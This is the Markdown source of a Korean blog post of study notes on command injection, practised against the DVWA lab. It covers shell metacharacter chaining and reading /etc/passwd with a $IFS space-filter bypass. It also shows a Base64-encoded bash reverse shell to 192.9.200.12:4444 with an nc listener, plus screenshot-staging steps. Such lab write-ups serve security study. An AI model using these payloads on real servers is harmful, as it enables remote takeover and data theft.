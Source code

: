 ```yaml
---
layout: post
title: "명령어 인젝션 (Command Injection) 공부"
date: 2025-09-22 17:00:00 +0900
categories: Study 웹 해킹
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

이 공격은 [A01: 접근 통제 실패](https://hamap0.github.io/projects/owasp-top-10/2025/08/25/A01_Broken-Access-Control.html) 보고서에서 리버스 쉘을 획득하여 서버 제어권을 장악하는 데 결정적인 역할을 했다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

단순한 메타 문자 주입은 방어 로직에 의해 차단될 수 있다. 이때는 필터링 규칙을 우회하는 기법이 필요하다.

#### **공백 문자 필터링 우회**
일부 시스템은 명령어 사이의 공백 문자를 필터링한다. 이때는 공백 대신 쉘의 내부 필드 구분자(Internal Field Separator)인 `$IFS` 변수를 사용할 수 있다.
*   **기본:** `cat /etc/passwd`
*   **우회:** `cat$IFS/etc/passwd`

#### **키워드 필터링 우회 (Base64 인코딩)**
`cat` · `ls` · `nc` 등 특정 명령어 키워드가 필터링될 때 사용된다. 실행할 명령어를 Base64로 인코딩하여 필터링을 우회한 뒤 서버에서 디코딩하여 실행시킨다.
1.  **공격자 PC에서 페이로드 인코딩:**
    ```bash
    # 실행할 리버스 쉘 명령어를 Base64로 인코딩 (-w0 옵션은 줄바꿈 없이 한 줄로 출력)
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    ```
2.  **대상 서버에서 디코딩 및 실행:**
    인코딩된 문자열을 `echo`로 출력하고 파이프(`|`)를 통해 `base64 -d`로 디코딩한 뒤 다시 파이프를 통해 `bash`로 실행시킨다.
    ```bash
    # DVWA 입력값:
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
[여기에 Base64 인코딩을 이용한 RCE 성공 이미지 삽입]

이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Base64 인코딩을 이용한 RCE 성공 이미지 제작**

이 이미지는 명령어 필터링을 우회하여 리버스 쉘을 획득하는 전 과정을 보여줍니다.

**1. "준비" 단계 (두 개의 터미널)**

1.  (준비) **공격자 PC(Attacker)**에서 두 개의 터미널 창을 엽니다.
2.  **첫 번째 터미널 (리스너):** `nc -lvnp 4444` 명령어를 실행하여 리스너를 시작합니다.
3.  **두 번째 터미널 (인코딩):** 리버스 쉘 페이로드를 Base64로 인코딩합니다.
    ```bash
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    # 결과로 나온 긴 문자열(예: YmFzaCAtaSA...)을 복사해 둡니다.
    ```

**2. "공격" 단계 (웹 브라우저)**

1.  웹 브라우저에서 DVWA의 `Command Injection` 페이지로 이동합니다.
2.  IP 입력창에 아래와 같은 형식으로 페이로드를 입력합니다. `<...>` 부분에는 위에서 복사한 Base64 문자열을 붙여넣습니다.
    ```
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
3.  `Submit` 버튼을 클릭합니다.

**3. "결과 확인" 및 스크린샷 촬영**

1.  **첫 번째 터미널 (리스너)**을 확인합니다. `connect to...` 메시지와 함께 대상 서버의 쉘 프롬프트가 나타나면 성공입니다.
2.  `whoami` 명령어를 실행하여 `www-data`가 출력되는 것을 확인합니다.
3.  **두 번째 터미널 (인코딩)**과 **첫 번째 터미널 (리스너)**이 나란히 보이도록 배치하고, 화면 전체를 스크린샷으로 찍습니다.

**4. 최종 이미지 편집**

1.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
2.  왼쪽(인코딩 터미널)과 오른쪽(리스너 터미널)을 명확히 구분합니다.
3.  **왼쪽**에서는 Base64로 인코딩된 결과 문자열에 하이라이트를 적용합니다.
4.  **오른쪽**에서는 성공적으로 획득한 `www-data` 쉘 프롬프트와 `whoami` 결과에 하이라이트를 적용합니다.
5.  두 하이라이트 사이에 화살표 등을 추가하여 왼쪽의 인코딩된 페이로드가 오른쪽의 쉘 획득으로 이어졌음을 시각적으로 보여줍니다.
6.  수정된 이미지를 저장하여 게시글에 삽입합니다.